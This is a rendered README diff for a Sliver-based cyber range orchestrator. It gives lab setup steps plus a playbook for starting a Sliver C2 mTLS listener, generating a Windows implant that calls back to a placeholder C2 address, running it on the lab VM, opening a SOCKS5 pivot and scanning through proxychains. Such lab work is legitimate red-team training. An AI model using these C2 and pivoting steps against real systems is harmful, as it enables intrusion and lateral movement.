

Before and after one commit to lcensies/sliver-orchestrator, a Markdown page: README.md, the part around one of its changes. Shown at 81% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -655,63 +655,86 @@ cd /path/to/standalone
 # Add go.mod at root, add explicit requires for grpc/gorm/yaml/protobuf, then:
 go mod tidy
 ```
-Vagrant Multi-Hop Cyber Range & Orchestrator
+## Vagrant Multi-Hop Cyber Range & Orchestrator
+
 This infrastructure provides an automated setup for building and executing multi-stage attack chains within a Vagrant-provisioned environment. It is designed to coordinate complex offensive workflows, focusing on Windows 10 Exploitation and Multi-hop Network Pivoting.
-All commands in this README are run from the repo root (sliver-orchestrator/).
 
-Deployment Guide
-Prerequisites
+All commands in this README are run from the **repo root** (`sliver-orchestrator/`).
+
+## Deployment Guide
+
+### Prerequisites
+
 Ensure the following tools are installed:
-•	Vagrant (v2.4.1+) & VirtualBox (v7.0+)
-•	Go (v1.22+) for building the orchestrator.
 
-Prepare Workspace & Build
-Bash
+- Vagrant (v2.4.1+) & VirtualBox (v7.0+)
+- Go (v1.22+) for building the orchestrator
+
+### Prepare Workspace & Build
+
+```bash
 # Initialize submodules and pull atomics
 git submodule update --init --remote
 
 # Build the system components
 make scenario-runner
 make scenario-server
+```
 
-Deploy the Lab (Vagrant)
+### Deploy the Lab (Vagrant)
+
 This setup provisions a dual-homed Linux gateway and an isolated Windows 10 target.
-Bash
+
+```bash
 # Add the custom Windows box (External link required)
 vagrant box add win10_custom win10_custom.box
 
 # Spin up the lab
 vagrant up win_target
+```
 
-Lab Architecture & Network Topology
-Host Name	OS	Internal IP	Role
-linux_pivot	Ubuntu 22.04	172.16.1.10	Compromised Gateway
-win_target	Windows 10	192.168.56.10	Internal Hidden Target
+## Lab Architecture & Network Topology
 
-Manual Exploitation & Pivoting Playbook
-Start Sliver C2 & Listener
-Bash
+| Host Name | OS | Internal IP | Role |
+|---|---|---|---|
+| `linux_pivot` | Ubuntu 22.04 | 172.16.1.10 | Compromised Gateway |
+| `win_target` | Windows 10 | 192.168.56.10 | Internal Hidden Target |
+
+## Manual Exploitation & Pivoting Playbook
+
+### Start Sliver C2 & Listener
+
+```bash
 ./sliver-server
+```
 
-Starting mTLS listener
+```
 [server] sliver > mtls
+```
 
-Generate and Run Windows Payload
-Bash
+### Generate and Run Windows Payload
+
+```bash
 # Generate payload in Sliver
 generate --mtls <C2_IP> --os windows --arch amd64 --save ./win_agent.exe
 
 # Access Windows via Vagrant and run (Shared folder: /vagrant)
 vagrant ssh win_target -c "C:\\vagrant\\win_agent.exe"
+```
 
-Establish the Pivot (SOCKS5)
-Plaintext
+### Establish the Pivot (SOCKS5)
+
+```
 [server] sliver > sessions
 [server] sliver > use 1
 [server] sliver (SESSION) > socks5 start --port 1080
+```
 
+```bash
 # Verify connectivity from host
 proxychains nmap -sT -Pn 192.168.56.10
+```
 
-Orchestrator Configuration & YAML Schema
+## Orchestrator Configuration & YAML Schema
+
 The orchestrator builds attack chains using a Directed Acyclic Graph (DAG) model.
````
Also changed, not shown: other parts of README.md (+32 -21 lines).
